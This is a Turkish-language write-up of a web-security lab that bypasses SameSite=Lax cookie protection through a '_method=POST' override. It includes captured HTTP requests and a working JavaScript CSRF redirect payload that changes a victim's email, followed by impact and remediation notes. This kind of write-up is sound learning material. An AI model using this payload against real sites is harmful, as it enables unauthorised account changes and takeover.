







# SameSite Lax bypass via method override

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonunda CSRF token gibi unpredictable bir koruma bulunmuyor. Uygulama state-changing işlemi normalde `POST /my-account/change-email` isteğiyle gerçekleştiriyor. Session cookie için explicit bir `SameSite` attribute'u set edilmediği için modern tarayıcılar bunu varsayılan olarak `SameSite=Lax` gibi ele alıyor. Bu durum cross-site `POST` isteklerinde cookie'nin gönderilmesini engellese de top-level `GET` navigation isteklerinde cookie gönderilebilir.

Uygulama ayrıca `_method=POST` parametresiyle HTTP method override destekliyor. Bu nedenle kurbanı exploit server'dan hedef uygulamadaki email değiştirme URL'sine `GET` ile yönlendirip URL'e `_method=POST` ekleyerek SameSite Lax kısıtlamasını bypass ettim.

## 3. Kullanılan Payload

```html
<script>
    document.location = "https://0a3d000604a4f4ab8341730900a70016.web-security-academy.net/my-account/change-email?email=victimnewemail777@gmail.com&_method=POST";
</script>
```

## 4. Exploitation Steps

1. Uygulamaya `wiener:peter` bilgileriyle giriş yaptım ve `/my-account` sayfasındaki email değiştirme fonksiyonunu test ettim.



2. Email değiştirme isteğini Burp Suite ile yakaladım. İsteğe baktığımda herhangi bir CSRF token bulunmadığını, email değişikliğinin yalnızca POST body içindeki `email` parametresiyle yapıldığını gördüm.

```http
POST /my-account/change-email HTTP/2
Host: 0a3d000604a4f4ab8341730900a70016.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=asdasdasd%40gmail.com
```



3. Burp Suite üzerinden isteğin method'unu `GET` olarak değiştirdim. Bu haliyle endpoint isteği kabul etmedi ve `405 Method Not Allowed` cevabı döndü.



```http
GET /my-account/change-email?email=asdasdasd%40gmail.com HTTP/2
```



4. URL'e `_method=POST` parametresi ekleyerek GET isteği içinde method override denedim. Uygulama isteği kabul etti ve `302 Found` ile hesap sayfasına yönlendirdi. Bu, endpoint'in GET request üzerinden `_method=POST` parametresini işleyerek email değişikliğini yaptığını gösterdi.

```http
GET /my-account/change-email?email=asdasdasd%40gmail.com&_method=POST HTTP/2
```



5. Exploit server üzerinde kurbanı hedef uygulamadaki email değiştirme URL'sine yönlendiren bir JavaScript payload'u hazırladım. Bu istek top-level navigation olarak çalışacağı için `SameSite=Lax` kapsamına takılmadan session cookie gönderilebilecekti.

```html
<script>
    document.location = "https://0a3d000604a4f4ab8341730900a70016.web-security-academy.net/my-account/change-email?email=victimnewemail777@gmail.com&_method=POST";
</script>
```



6. Exploit'i kurbana gönderdim. Kurban sayfayı açtığında tarayıcı hedef siteye GET navigation isteği yaptı, session cookie `SameSite=Lax` nedeniyle bu isteğe eklendi ve `_method=POST` parametresi sayesinde uygulama isteği POST gibi işledi. Böylece kurbanın email adresi değiştirildi ve lab başarıyla çözüldü.



## 5. Impact

CSRF token bulunmayan state-changing endpoint'ler, yalnızca SameSite cookie davranışına güvenerek korunmamalıdır. Uygulama method override gibi mekanizmaları GET isteklerinde kabul ediyorsa, saldırgan kurbanı top-level navigation ile hedef URL'e yönlendirerek session cookie'nin gönderilmesini sağlayabilir. Bu labda email değişikliği yapıldı; benzer zafiyetler kritik hesap işlemlerinde hesap ele geçirme veya yetkisiz işlem riskini artırabilir.

## 6. Remediation

State-changing işlemler yalnızca uygun HTTP methodlarıyla yapılmalı ve GET istekleriyle tetiklenmemelidir. Method override mekanizması gerekiyorsa yalnızca güvenli koşullarda ve CSRF koruması uygulanmış POST isteklerinde kabul edilmelidir. Email değiştirme gibi işlemlerde session'a bağlı, tahmin edilemez CSRF token kullanılmalı ve sunucu tarafında doğrulanmalıdır. Cookie'lerde `SameSite` attribute'u açıkça tanımlanmalı, ancak SameSite tek başına CSRF koruması olarak görülmemelidir.
